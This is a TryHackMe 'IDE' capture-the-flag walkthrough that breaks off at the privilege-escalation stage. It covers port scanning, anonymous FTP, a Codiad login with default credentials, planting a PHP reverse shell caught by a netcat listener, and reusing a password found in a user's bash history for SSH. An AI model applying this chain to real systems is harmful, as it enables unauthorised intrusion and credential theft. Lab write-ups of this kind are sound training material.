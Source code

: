 # TryHackMe - IDE

[Room link](https://tryhackme.com/room/ide)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
$ nmap -sS <target_ip>
[...]
Host is up (0.013s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

We can see we have few interesting services like ftp and http. We don't focus ssh for the moment.

Second scan : full scan :

```bash
$ sudo nmap -sS -T5 -p- <target_ip>
[...]
Not shown: 65495 closed ports, 36 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown
```

---

### FTP

First, i try to connect to the ftp service remotly on anymous.

```bash
$ ftp <target_ip>
[...]
Name (10.10.236.174:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
```

Ok, we are connected as anonymous. Let's see what it is avalaible.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.5653 MB/s)
ftp> 
```

We have download the file named "-". Let's see this file content.

```txt
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

---

### HTTP 80

A web site is avalaible on the port 80. When you request http://<target_ip>/, we have a response with the apache default page. The next step it is to enumerate pages.

This website seems empty after a gobuster scan.

---

### HTTP 62337

Let's do an another web content scan, we will use dirb this time :

```bash
$ dirb http://<target_ip>/
[...]
---- Scanning URL: http://10.10.207.204:62337/ ----
==> DIRECTORY: http://10.10.207.204:62337/components/                                                                                                                             
==> DIRECTORY: http://10.10.207.204:62337/data/                                                                                                                                   
+ http://10.10.207.204:62337/favicon.ico (CODE:200|SIZE:1150)                                                                                                                     
+ http://10.10.207.204:62337/index.php (CODE:200|SIZE:5239)                                                                                                                       
==> DIRECTORY: http://10.10.207.204:62337/js/                                                                                                                                     
==> DIRECTORY: http://10.10.207.204:62337/languages/                                                                                                                             
==> DIRECTORY: http://10.10.207.204:62337/lib/                                                                                                                                   
==> DIRECTORY: http://10.10.207.204:62337/plugins/                                                                                                                               
+ http://10.10.207.204:62337/server-status (CODE:403|SIZE:281)                                                                                                                   
==> DIRECTORY: http://10.10.207.204:62337/themes/ 
```

After checked some directories, we can find an interresting information in this page : http://10.10.207.204:62337/js/system.js

```txt
/*
 *  Copyright (c) Codiad & Kent Safranski (codiad.com), distributed
 *  as-is and without warranty under the MIT License. See
 *  [root]/license.txt for more. This information must remain intact.
 */
```

We need to search the default password of Codiad, like drac said previously. In fact, he reset the john's password with the default password.

After few research the default password is ... password.

---

## Exploitation

Let's try to connect via the form on the index page with this credentials : john/password. That works !

It is possible to add a project. If we add a projet with a random name like "Test" and this path : /var/www/html/codiad we will see and we can modify some files presents on the site. Let's try to modify a file with a reverse shell. For example, we can use /languages/bg.php and replace the content with a php reverse shell. Dont't forget to replace your IP address and save. Now, we need to set a netcat listenner with this command :

```bash
$ nc -lnvp <listenning_port>
```

Now, we need to call this page /languages/bg.php.

Nice ! We get a shell on our netcat listenner.

```bash
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.124.121 55972 received!
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:42:00 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

If we check the user drac history, we can see this following entry :

```bash
/home/drac
$ cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

We can try to connect on the ssh to the target machine with this password.

```bash
Last login: Wed Aug  4 06:36:42 2021 from 192.168.0.105
drac@ide:~$ 
```

That works. We are connected as drac user.

---

## User flag

Now, we can get the user's flag at /home/drac/user.txt

---

Now, we need to privesc to the user root. 

If we check the sudo's commands of the drac user we can see this :

```bash
drac@ide:/$ sudo -l
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
